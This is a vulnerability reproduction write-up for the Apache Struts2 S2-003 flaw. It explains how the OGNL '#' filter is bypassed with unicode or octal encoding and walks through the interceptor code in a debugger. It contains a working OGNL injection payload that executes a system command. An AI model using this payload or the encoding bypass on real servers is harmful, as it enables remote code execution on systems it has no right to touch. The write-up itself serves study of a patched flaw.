







# S2-003 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote server context manipulation                           |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to Struts 2.2.1 or later |
| Affected Software       | Struts 2.0.0 - Struts 2.1.8.1                                |
| Original JIRA Ticket    | [XW-641](http://jira.opensymphony.com/browse/XW-641), [WW-2692](http://issues.apache.org/struts/browse/WW-2692) |
| Reporter                | Meder Kydyraliev, Google Security Team                       |

## Problem

Ognl的上下文对象必须要使用#符号，Struts2虽然对#号进行过滤，但是没有考虑到编码情况，导致可以用unicode编码\u0023或者8进制\43绕过。

## Environment

| Struts2 Version | struts-2.0.11.2-all                                          |
| --------------- | ------------------------------------------------------------ |
| Server          | Tomcat 6.0.9 (Only in this version did I run payload successfully) |
| IDE             | idea 2020.1.1 ULTIMATE                                       |

## POC



## Payload

`?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)`

## Debug

ParameterInterceptors函数会对所有的参数先进行一系列处理，确保用户提交的参数不存在OGNL表达式，最后使用OgnlUtil.setValue()函数将参数放入valueStack中。

`xwork-2.0.5.jar!/com/opensymphony/xwork2/interceptor/ParametersInterceptor.class:91`



检查参数是否存在OGNL表达式：(pattern ```[\p{Graph}&&[^,#:=]]*```)





OgnlUtil.setValue()函数将参数放入valueStack中：



在检查参数的过程中，使用正则表达式匹配是否存在Graph、#等关键字，没有考虑到参数编码的情况。可以使用unicode、八进制对```#```进行编码，绕过正则表达式检查。



unicode/八进制编码在expressions.get后被转换为了#：



## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

* [S2-003](https://cwiki.apache.org/confluence/display/WW/S2-003)
